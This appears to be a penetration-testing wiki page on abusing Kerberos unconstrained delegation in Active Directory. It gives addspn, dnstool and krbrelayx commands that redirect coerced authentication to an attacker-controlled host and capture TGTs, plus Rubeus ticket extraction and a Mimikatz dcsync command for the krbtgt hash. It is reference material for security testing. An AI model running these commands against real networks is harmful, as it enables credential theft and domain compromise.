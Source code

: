 # \(KUD\) Unconstrained

## Theory

If an account \(user or computer\), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it \(or [force it](../../mitm-and-coerced-authentications/)\) using Kerberos. The attacker service will receive an ST \(service ticket\) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user.

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with the [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug) or [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

## Practice

{% tabs %}
{% tab title="From the attacker machine \(UNIX-like\)" %}
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs \(i.e. of the compromised account\) and add a DNS entry for that name.

This allows targets \(e.g. Domain Controllers or Exchange servers\) to authenticate back to the attacker machine.

All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) \(Python\).

{% hint style="info" %}
When attacking accounts able to delegate without constraints, there are two major scenarios

* **the account is a computer**: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by krbrelayx will be encrypted with AES256 \(by default\), attackers will need to either supply the right AES256 key for the unconstrained delegations account \(`--aesKey` argument\) or the salt and password \(`--krbsalt` and `--krbpass` arguments\).
* **the account is a user**: users can't edit their own SPNs like computers do. Attackers need to control an [account operator](../../privileged-groups.md) \(or any other user that has the needed privileges\) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash \(`-hashes` argument\) or the salt and password \(`--krbsalt` and `--krbpass` arguments\)
{% endhint %}

{% hint style="success" %}
By default, the salt is always

* **For users**: uppercase realm + case sensitive username = `DOMAIN.LOCALuser`
* **For computers**: uppercase realm + the word host + lowercase hostname without the trailing '$' + . + lowercase = `DOMAIN.LOCALmachine.domain.local`
{% endhint %}

```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'

# 4. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
```

{% hint style="warning" %}
In case, for some reason, attacking a Domain Controller doesn't work \(i.e. error saying`Ciphertext integrity failed.`\) try to attack others \(if you're certain the credentials you supplied were correct\). Some replication and propagation issues could get in the way.
{% endhint %}

Once the krbrelayx listener is ready, an [authentication coercion attack](../../mitm-and-coerced-authentications/) \(e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)\) can be operated. The listener will then receive a Kerberos authentication, hence a ST, containing a TGT.
{% endtab %}

{% tab title="From the compromised computer \(Windows\)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used \(on the compromised host\) as a listener to wait for a user to authenticate, the ST to show up and to extract the TGT it contains.

```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../../mitm-and-coerced-authentications/) \(e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)\) can be operated. Rubeus will then receive an authentication \(hence a ST, containing a TGT\). The TGT can be used to request a ST for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Once the ticket is injected, it can natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://stealthbits.com/blog/unconstrained-delegation-permissions/" %}

{% embed url="https://exploit.ph/user-constrained-delegation.html" %}

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/" %}



